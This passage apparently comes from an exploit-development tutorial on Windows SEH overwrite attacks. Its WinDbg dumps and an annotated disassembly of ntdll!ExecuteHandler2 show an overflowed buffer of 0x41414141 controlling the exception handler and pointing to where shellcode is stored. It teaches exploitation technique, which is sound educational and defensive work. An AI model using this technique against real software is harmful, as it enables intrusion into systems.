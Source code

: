 ```c
0175ffb0  41414141
0175ffb4  41414141
0175ffb8  41414141
0175ffbc  41414141
0175ffc0  41414141
```
As we can see, the pointer to our `_EXCEPTION_REGISTRATION_RECORD` stores an address to where our payload is located! We did not only override those bytes, but more bytes!
So the same buffer that we used to overwrite the `_EXCEPTION_REGISTRATION_RECORD` to modify the EIP is the same that we will use to store our payload.

Let's locate the section where we put the parameters of ExecuteHandler2 to see where our paramter of interest is located:
```c
0:010> u @eip L11
ntdll!ExecuteHandler2:
7731622c 55              push    ebp
7731622d 8bec            mov     ebp,esp
7731622f ff750c          push    dword ptr [ebp+0Ch]
77316232 52              push    edx
77316233 64ff3500000000  push    dword ptr fs:[0]
7731623a 64892500000000  mov     dword ptr fs:[0],esp
77316241 ff7514          push    dword ptr [ebp+14h]
77316244 ff7510          push    dword ptr [ebp+10h]
77316247 ff750c          push    dword ptr [ebp+0Ch] // This is the EstablisherFrame address 
7731624a ff7508          push    dword ptr [ebp+8]
7731624d 8b4d18          mov     ecx,dword ptr [ebp+18h]
77316250 ffd1            call    ecx // This ends calling 0x41414141, our handler function! 
77316252 648b2500000000  mov     esp,dword ptr fs:[0]
77316259 648f0500000000  pop     dword ptr fs:[0]
77316260 8be5            mov     esp,ebp
77316262 5d              pop     ebp
77316263 c21400          ret     14h
```

Indeed, if we inspect that address, we will find that is is the location of our shellcode:
```c
0:010> t
eax=00000000 ebx=00000000 ecx=6fdb73da edx=77316270 esi=00000000 edi=00000000
eip=77316247 esp=0175f44c ebp=0175f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
ntdll!ExecuteHandler2+0x1b:
77316247 ff750c          push    dword ptr [ebp+0Ch]  ss:0023:0175f46c=0175ff44
```

Let's see the contents of ebp+0ch: 
```c
0:010> dds ebp+0xc
0175f46c  0175ff44
```

We can see that the address of our `_EXCEPTION_REGISTRATION_RECORD` is there. The other parameters are also EBP offsets, but we are not interested.
